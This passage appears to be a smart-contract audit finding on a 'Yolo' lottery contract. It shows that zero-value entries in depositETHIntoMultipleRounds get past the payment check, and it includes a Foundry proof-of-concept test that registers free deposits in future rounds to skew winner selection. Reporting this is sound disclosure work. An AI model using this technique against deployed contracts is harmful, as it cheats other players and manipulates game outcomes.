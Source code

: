 as we can see in the above comments added by me starting with "review" it explains how its possible. As long as user deposits normally to 1 round then he can also deposit "0" amounts to any round because the `expectedValue` will be equal to msg.value.

**Textual PoC:**
Assume Alice sends the tx with 1 ether as msg.value and "amounts" array as [1 ether, 0, 0].
first time the loop starts the 1 ether will be correctly evaluated in to the round. When the loop starts the 2nd and 3rd iterations it won't revert because the following code snippet will be "0" and adding 0 to `expectedValue` will not increment to `expectedValue` so the msg.value will be exactly same with the `expectedValue`.
```solidity
if (depositAmount % roundValuePerEntry != 0) {
                revert InvalidValue();
            }
```

**Coded PoC (copy the test to `Yolo.deposit.sol` file and run the test):**
```solidity
function test_deposit0ToRounds() external {
        vm.deal(user2, 1 ether);
        vm.deal(user3, 1 ether);

        // @dev first round starts normally
        vm.prank(user2);
        yolo.deposit{value: 1 ether}(1, _emptyDepositsCalldata());

        // @dev user3 will deposit 1 ether to the current round(1) and will deposit
        // 0,0 to round 2 and round3
        uint256[] memory amounts = new uint256[](3);
        amounts[0] = 1 ether;
        amounts[1] = 0;
        amounts[2] = 0;
        vm.prank(user3);
        yolo.depositETHIntoMultipleRounds{value: 1 ether}(amounts);

        // @dev check user3 indeed managed to deposit 0 ether to round2
        IYoloV2.Deposit[] memory deposits = _getDeposits(2);
        assertEq(deposits.length, 1);
        IYoloV2.Deposit memory deposit = deposits[0];
        assertEq(uint8(deposit.tokenType), uint8(IYoloV2.YoloV2__TokenType.ETH));
        assertEq(deposit.tokenAddress, address(0));
        assertEq(deposit.tokenId, 0);
        assertEq(deposit.tokenAmount, 0);
        assertEq(deposit.depositor, user3);
        assertFalse(deposit.withdrawn);
        assertEq(deposit.currentEntryIndex, 0);

        // @dev check user3 indeed managed to deposit 0 ether to round3
        deposits = _getDeposits(3);
        assertEq(deposits.length, 1);
        deposit = deposits[0];
        assertEq(uint8(deposit.tokenType), uint8(IYoloV2.YoloV2__TokenType.ETH));
        assertEq(deposit.tokenAddress, address(0));
        assertEq(deposit.tokenId, 0);
        assertEq(deposit.tokenAmount, 0);
        assertEq(deposit.depositor, user3);
        assertFalse(deposit.withdrawn);
        assertEq(deposit.currentEntryIndex, 0);
    }
```
## Impact
High, since it will alter the games winner selection and it is very cheap to perform the attack.
## Code Snippet